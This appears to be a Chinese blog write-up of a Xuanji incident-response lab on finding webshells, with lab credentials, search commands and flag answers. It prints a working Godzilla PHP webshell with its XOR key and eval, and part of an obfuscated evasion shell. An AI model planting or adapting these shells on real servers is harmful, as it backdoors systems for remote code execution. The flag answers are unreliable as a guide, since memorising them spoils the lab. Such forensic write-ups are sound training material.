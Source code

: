```yaml
---
title: 玄机 第一章 应急响应 Webshell查杀
description: 玄机 第一章 应急响应 Webshell查杀 WP
pubDate: 10 15 2024
image: https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-4.png?imageSlim
categories:
  - 网络安全
tags:
  - 靶场
  - 应急响应
  - 玄机靶场
---
```


## 靶场环境

环境：69.230.239.23 / 10.0.10.3

靶机账号密码 root xjwebshell

- 黑客webshell里面的flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}
- 黑客使用的什么工具的shell github地址的md5 flag{md5}
- 黑客隐藏shell的完整路径的md5 flag{md5} 注 : /xxx/xxx/xxx/xxx/xxx.xxx
- 黑客免杀马完整路径 md5 flag{md5}

## WP

来到网站根目录，得到 `shell.php`

![](https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-1.png?imageSlim)

没有 flag，find 命令寻找

```shell
find . -name "*.php"
```

寻找后得到 webshell 文件为 `./include/gz.php`，拿到 flag

![](https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-2.png?imageSlim)

观察特征

```
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
//027ccd04-5065-48b6-a32d-77c704a5e26d
$payloadName='payload';
$key='3c6e0b8a9c15224a';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
                eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

开头的

```php
@session_start();
@set_time_limit(0);
@error_reporting(0);
```

明显是哥斯拉的，github 地址为 `https://github.com/BeichenDream/Godzilla`，加密 MD5 得到 `39392DE3218C333F794BEFEF07AC9257`，得到 flag

第三个 flag 是隐藏的 shell，挨个找呗，发现 `.Mysqli.php` 是加密的。

![](https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-3.png?imageSlim)

对路径 `/var/www/html/include/Db/.Mysqli.php` MD5 加密得到 `AEBAC0E58CD6C5FAD1695EE4D1AC1919`

然后是找免杀马，文件太多了，因为是哥斯拉的木马，所以免杀文件里很有可能还有 key 字样，我们找目录下所有文件内容带 key 的 php 文件

```shell
grep -r "key" --include "*.php" /var/www/html
```

得到了一堆 php 文件，然后就挨个看吧

![](https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-4.png?imageSlim)

发现一个特殊文件

```php
<?php

$key = "password";

//ERsDHgEUC1hI
$fun = base64_decode($_GET['func']);
for($i=0;$i<strlen($fun);$i++){
    $fun[$i] = $fun[$i]^$key[$i+1&7];
}
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
```

MD5加密路径得到 flag `EEFF2EABFD9B7A6D26FC1A53D3F7D1DE`
